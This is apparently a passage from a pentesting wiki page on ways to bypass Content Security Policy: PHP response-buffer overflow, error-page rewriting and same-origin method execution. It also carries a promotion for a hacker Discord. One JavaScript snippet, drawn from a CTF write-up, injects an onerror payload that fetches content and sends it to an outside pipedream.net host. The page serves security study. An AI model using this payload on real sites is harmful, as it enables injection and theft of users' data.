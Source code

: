 Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Unsafe Technologies to Bypass CSP

### PHP response buffer overload

PHP is known for **buffering the response to 4096** bytes by default. Therefore, if PHP is showing a warning, by providing **enough data inside warnings**, the **response** will be **sent** **before** the **CSP header**, causing the header to be ignored.\
Then, the technique consists basically in **filling the response buffer with warnings** so the CSP header isn't sent.

Idea from [**this writeup**](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points).

### Rewrite Error Page

From [**this writeup**](https://blog.ssrf.kr/69) it looks like it was possible to bypass a CSP protection by loading an error page (potentially without CSP) and rewriting its content.

```javascript
a = window.open('/' + 'x'.repeat(4100));
setTimeout(function() {
    a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">`;
}, 1000);
```

### SOME + 'self' + wordpress

SOME is a technique that abuses an XSS (or highly limited XSS) **in an endpoint of a page** to **abuse** **other endpoints of the same origin.** This is done by loading the vulnerable endpoint from an attacker page and then refreshing the attacker page to the real endpoint in the same origin you want to abuse. This way the **vulnerable endpoint** can use the **`opener`** object in the **payload** to **access the DOM** of the **real endpoint to abuse**. For more information check:

{% content-ref url="../xss-cross-site-scripting/some-same-origin-method-execution.md" %}
[some-same-origin-method-execution.md](../xss-cross-site-scripting/some-same-origin-method-execution.md)
{% endcontent-ref %}
